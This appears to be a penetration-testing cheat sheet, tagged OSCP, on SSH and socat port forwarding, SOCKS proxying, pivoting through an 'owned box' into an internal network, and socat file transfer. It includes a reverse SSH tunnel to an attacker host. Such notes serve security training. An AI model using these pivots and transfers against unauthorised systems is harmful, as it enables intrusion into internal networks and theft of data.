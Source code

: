 Port forwarding from $TARGET_IP to localhost with SSH
---
```bash
ssh -N -L $LOCAL_PORT:localhost:$PORT $USER@$TARGET_IP
```

```bash
sshpass -p $PASSWORD ssh $USER@$TARGET_IP -L $PORT:127.0.0.1:$PORT
```

or run in background with -f option

```bash
ssh -N -f -L $PORT:localhost:$PORT $USER@$TARGET_IP
```

Forward port from remote machine to local machine:

```bash
service ssh start
```

then on remote machine

```bash
ssh -N -R $REMOTE_PORT:localhost:$PORT $USER@$ATTACKER_IP
```

Proxy on localhost:9090 using SSH and credentials:
(WARNING: Proxy is very unstable if it cannot resolve a host, e.g. http page includes)
```bash
#socks5, localhost:9090 in FoxyProxy
ssh -D 9090 $USER@$TARGET_IP
```

Forward local port to target IP with SOCAT
---
```bash
socat TCP-LISTEN:139,reuseaddr,fork TCP:$TARGET_IP:$PORT &
```

OSCP socat
---
#socat #pivot #port-forwarding

forward port 22 on internal/unreachable to attacker box to owned box port 2222

```bash
socat -ddd TCP-LISTEN:2222,fork TCP:$INTERNAL_IP:22
```

![](images/socat-network-pivot.png)

```puml
@startuml
!theme crt-green

nwdiag {
    internet [shape=cloud]
    VPN [type=switch];
    internet -- VPN
    group {
      color="#425444"
      webserver;
      database;
    }
    network VPN_network {
      VPN;
      webserver [address = "192.168.x.101"];
      attacker [address = "192.168.x.102" shape = entity];
      address = "192.168.x.x/24"
    }
    network internal {
        address = "10.x.x.x/24"
        webserver [address = "10.x.x.102" shape = database]
        database [address = "10.x.x.101" shape = collections];
        other_server [address = "10.x.x.103" ];
    }

}
@enduml
```

Using SOCAT to send file:
---
On receiving machine

```bash
socat -u TCP-LISTEN:9876,reuseaddr OPEN:$FILE_OUT,creat
```

and on sending machine

```bash
socat -u FILE:$FILE_OUT TCP:$RECEIVER_IP:9876
```